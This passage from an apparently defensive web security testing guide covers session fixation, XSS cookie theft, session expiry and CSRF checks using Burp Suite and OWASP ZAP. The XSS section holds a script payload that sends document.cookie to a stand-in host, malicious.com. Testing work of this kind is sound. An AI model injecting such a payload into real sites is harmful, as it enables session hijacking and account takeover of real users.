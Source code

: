 #### **Testing Method**:
- **Manual Testing**:
  - Set or **fix a session ID** before login (either by capturing a session ID in a request or manually modifying a request via Burp Suite).
  - Log in using the same session ID.
  - If the session ID remains unchanged after login, this could allow an attacker to fix a session ID and hijack it later, which is a **session fixation** vulnerability.

#### **Tools**:
- **Burp Suite**:
  - Capture an unauthenticated session token and then log in to see if the session token is regenerated.
  - If the session token remains the same before and after login, report it as a session fixation vulnerability.

### 4. **Cross-Site Scripting (XSS) and Cookie Theft**:

#### **Testing Method**:
- **Manual Testing**:
  - Look for potential XSS vulnerabilities (e.g., input fields that reflect user input).
  - If XSS is present, attempt to steal cookies by injecting malicious JavaScript, such as:
    ```javascript
    <script>document.location='http://malicious.com?cookie='+document.cookie</script>
    ```
  - If the **HttpOnly** flag is not set on the cookies, the malicious script can steal the session cookie, leading to session hijacking.

#### **Tools**:
- **Burp Suite** or **OWASP ZAP**:
  - Use the **intruder** or **scanner** tools to test for reflective XSS that can be exploited to steal session cookies.

### 5. **Session Timeout and Expiry**:

#### **Testing Method**:
- **Manual Testing**:
  - Log in to the application and leave it idle for a significant time.
  - Return to the application and test whether the session has expired or is still valid.
  - Sessions should expire after a certain period of inactivity.
  
- Test whether logging out of the application properly invalidates the session by trying to reuse the old session token after logging out.

### 6. **Cross-Site Request Forgery (CSRF)**:

#### **Testing Method**:
- **Manual Testing**:
  - For forms or actions that change sensitive information (e.g., password change, account settings), attempt to submit a **forged request** using the victim’s session cookie.
  - If the request is processed without a CSRF token, it indicates a vulnerability.
